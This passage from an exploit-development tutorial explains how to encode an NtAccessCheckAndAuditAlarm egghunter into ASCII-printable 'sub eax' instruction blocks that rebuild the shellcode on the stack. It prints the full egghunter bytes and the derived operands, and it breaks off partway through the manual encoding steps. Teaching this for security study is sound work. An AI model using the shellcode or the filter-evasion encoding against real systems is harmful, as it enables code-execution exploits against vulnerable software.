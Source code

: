 In the first encoded hunter block, after <code>eax</code> is cleared, our <code>sub</code> operands are:

```py
#\x75\xE7\xFF\xE7 is pushed onto the stack
egghunter += "\x2d\x30\x71\x55\x71"     # sub eax, 0x71557130
egghunter += "\x2d\x30\x71\x55\x71"     # sub eax, 0x71557130
egghunter += "\x2d\x2B\x36\x55\x35"     # sub eax, 0x3555362B
```
0x00000000 - 0x71557130 - 0x71557130 - 0x3555362B = <b>0xE7FFE775</b>

Observe that that the value above corresponds to the last 4 bytes of our egghunter when written into memory in little-endian format:

```
#NtAccessCheckAndAuditAlarm egghunter
#using w00t ("\x77\x30\x30\x74") tag

\x66\x81\xCA\xFF
\x0F\x42\x52\x6A
\x02\x58\xCD\x2E
\x3C\x05\x5A\x74
\xEF\xB8\x77\x30
\x30\x74\x8B\xFA
\xAF\x75\xEA\xAF
\x75\xE7\xFF\xE7    <===
```

Once <code>eax</code> has been loaded with our desired 4 bytes, the final <b>\x50</b> of the encoded block pushes the value stored in <code>eax</code> onto the stack. Each block will push another 4 bytes of our egghunter until all bytes of the egghunter are stored on the stack.



### Manual Encoding

So how do we come up hex values that comprise the three <code>sub</code> instructions in our encoded blocks?

The method is as follows:

1. Organize the egghunter into 4 byte chunks

2. Pad the instructions to a multiple of 4 with "safe instructions" if necessary:<br>
   In our situation, 32 bytes will not need any padding. If we had, say, 30 bytes in our egghunter, we would need to pad two ASCII-printable bytes of an instruction that would not cause any adverse side effects to the rest of our code. For example, if we did not have any use for the <code>ecx</code> register, we could use <code>inc ecx</code> or <b>\x41</b> to pad out our egghunter.

3. Take last 4 byte chunk and format in little-endian:<br>
  <b>\x75\xE7\xFF\xE7</b> ==> <b>\xE7\xFF\xE7\x75</b>

4. Take the two's complement of the result:<br>
  <b>0xE7FFE775</b> ==> <b>0x1800188B</b><br>
  This can be done in calc.exe in Programmer Mode by negating the operand.

5. Find three ASCII-printable operands that, when subtracted from zero, result in the two's complement calculated in the previous step.<br>
